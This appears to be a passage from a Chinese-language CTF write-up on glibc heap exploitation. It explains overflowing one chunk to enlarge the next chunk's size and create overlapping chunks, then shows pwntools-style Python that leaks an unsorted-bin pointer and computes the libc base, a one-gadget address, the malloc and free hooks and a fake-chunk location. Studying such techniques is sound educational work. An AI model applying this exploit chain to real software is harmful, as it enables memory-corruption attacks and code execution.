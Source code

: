 ```python
```

这一块代码是分配四个块，每个大小为0x80，然后分别填入内容，

然后溢出chunk0，覆盖chunk1的size部分，具体的空间计算为：

0x80个a，填充chunk0，8个a，覆盖chunk1的prevsize，然后使用大小0x120覆盖chunk1的大小，

> 0x120是两个chunk的大小，一个chunk的大小是0x80加头部0x10大小共0x90。  
> +1是似乎是代码要求，大概是为了末尾的三个字节设计的？

操作完之后的内存是长这个样子的，划线部分为chunk2部分，它同时也是bin里面的一块，

![Alt text](./img/image-15.png)

在刚才覆盖chunk1的大小后，free 1时，识别到chunk1大小为两个chunk的大小，所以加入到unsortedbin，

然后又alloc，申请大小为一个chunk大小，此时会把刚才的空间对半分，前半部分给chunk1，
后半部分将fd指针和bk指针部分写入unsortedbin的地址。

但是chunk2实际上一直都在程序中，但是内存管理误以为chunk2部分是可用的，来进行管理，

此时对于内存管理程序，chunk2部分是prevsize(8)+size(8)+fd(8)+bk(8)+data(0x70)

而对于程序来说，chunk2是prevsize(8)+size(8)+data(0x80)，此时fd指针和bk指针是chunk2的数据的前16字节。

所以可以通过dump chunk2的数据，获得fd bk指针，也就是unsortedbin的地址，通过与libc的偏移可以算出libc的基地址

```python
content2 = dump(2)
leak = u64(content2[0:8])
libc = leak - 0x58 - 0x10 - elf.symbols['__malloc_hook']
system = libc + 0x4526a
malloc_hook = libc + elf.symbols['__malloc_hook']
free_hook = libc + elf.symbols['__free_hook']
fake_chunk_loc = malloc_hook - 0x23
log.info("Leak is:        " + hex(leak))
log.info("libc is:        " + hex(libc))
log.info("System is:      " + hex(system))
log.info("Malloc hook is: " + hex(malloc_hook))
log.info("Free hook is:   " + hex(free_hook))
log.info("Fake chunk location is:  " + hex(fake_chunk_loc))
```
